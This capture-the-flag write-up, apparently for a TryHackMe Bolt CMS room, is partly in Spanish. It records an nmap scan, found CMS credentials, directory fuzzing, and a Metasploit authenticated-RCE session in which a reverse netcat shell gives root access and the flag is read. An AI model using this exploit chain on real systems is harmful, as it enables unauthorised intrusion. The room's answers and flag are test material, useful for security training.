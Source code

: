 
#### What port number has a web server with a CMS running?

8000

```
# Nmap 7.94SVN scan initiated Sat Oct  5 17:53:54 2024 as: /usr/lib/nmap/nmap --privileged -sV -p- --min-rate 5000 -v -oN nmap 10.10.37.83
Nmap scan report for 10.10.37.83
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8000/tcp open  http    (PHP 7.2.32-1)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
 
 

```

#### What is the username we can find in the CMS?
Este en el codigo fuente de la pagina

bolt

#### What is the password we can find for the username?

boltadmin123



```
ffuf -u http://10.10.37.83:8000/bolt/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 50 -ic 

/login
```

#### What version of the CMS is installed on the server? (Ex: Name 1.1.1)

- entrar con las credenciales y en la esquina inferior izquierda

3.7.1



#### There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

https://www.exploit-db.com/exploits/48296

48296

#### Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)

Note: If you can't find the exploit module its most likely because your metasploit isn't updated. Run `**apt update**` then `**apt install metasploit-framework**`



exploit/unix/webapp/bolt_authenticated_rce


#### Look for flag.txt inside the machine.


```
msfconsole -q
msf6 > search bolt

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       great      Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   1    \_ target: Linux (x86)                    .                .          .      .
   2    \_ target: Linux (x64)                    .                .          .      .
   3    \_ target: Linux (cmd)                    .                .          .      .
   4  exploit/multi/http/bolt_file_upload         2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability


Interact with a module by name or index. For example info 4, use 4 or use exploit/multi/http/bolt_file_upload

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts 10.10.249.1
rhosts => 10.10.249.1
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set lhost 10.2.4.107
lhost => 10.2.4.107
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set user
set useragent  set username   
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set username bolt
username => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set password boltadmin123
password => boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > 


[*] Started reverse TCP handler on 10.2.4.107:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "tanwj".
[*] Found 2 potential token(s) for creating .php files.
[+] Deleted file xbgoepigxq.php.
[+] Used token 5094fd3529176b0e4f440517c1 to create ktvszpcid.php.
[*] Attempting to execute the payload via "/files/ktvszpcid.php?tanwj=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 1 opened (10.2.4.107:4444 -> 10.10.249.1:54682) at 2024-10-05 19:07:57 -0500
[+] Deleted file ktvszpcid.php.
[+] Reverted user profile back to original state.

id
uid=0(root) gid=0(root) groups=0(root)
ls
index.html
cd /root
ls
cd /home
ls
bolt
composer-setup.php
flag.txt
cat flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}




```

Look for flag.txt inside the machine.


THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}




